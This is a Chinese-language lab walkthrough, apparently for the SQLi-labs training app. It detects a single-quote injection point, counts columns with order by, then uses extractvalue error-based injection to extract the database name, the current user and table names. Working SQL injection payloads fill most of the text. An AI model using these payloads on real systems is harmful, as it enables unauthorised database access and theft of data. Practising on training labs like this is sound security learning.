 由报错信息可知该SQL语句出错在`...id='1' and 1=1' limit 0,1`

根据以上报错信息推测原SQL语句对于传递的id参数使用单引号闭合

接下来针对单引号闭合构造对应注入语句，使得SQL语句中的单引号闭合即可即有意使前后单引号都和传递的参数中的引号闭合

```sql
?id=1' and '1'='1  
```

可以看到SQL语句成功执行

![](https://gitee.com/YatJay/image/raw/master/img/202202061025724.png)

构造报错语句检测注入点存在：可见语句成功执行了，确实存在注入点

![](https://gitee.com/YatJay/image/raw/master/img/202202061026838.png)

爆字段数，注意使用`order by`时无法闭合原SQL语句中的后单引号，因此需要将后单引号以及后面全注释掉

由此可知查询结果包含3个字段即3列

![](https://gitee.com/YatJay/image/raw/master/img/202202061029426.png)

![](https://gitee.com/YatJay/image/raw/master/img/202202061029533.png)

爆输出位置，注意本题没有回显，即使联合查询`union select 1,2,3`，也不会回显输出

![](https://gitee.com/YatJay/image/raw/master/img/202202061032296.png)

因此使用**报错注入**，即页面上没有显示位，但是需要输出 SQL 语句执行错误信息。比如 mysql_error()。这会在后续学习。

此处我们使用`and (extractvalue(1,concat(0x7e,(select user()),0x7e)));`进行报错注入

爆库名 

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select database()),0x7e)));--+
```

得到数据库名为security

![](https://gitee.com/YatJay/image/raw/master/img/202202061042179.png)

爆用户名 `?id=-1' and (extractvalue(1,concat(0x7e,(select user()),0x7e)));--+`

![](https://gitee.com/YatJay/image/raw/master/img/202202061042321.png)

爆表名 

```sql
?id=-1' and (extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e)))--+ 
```

 并且使用limit对多条结果进行依次输出

得到数据库security数据库中的数据表名分别是emails、referers、uagents、users 

![](https://gitee.com/YatJay/image/raw/master/img/202202061046404.png)
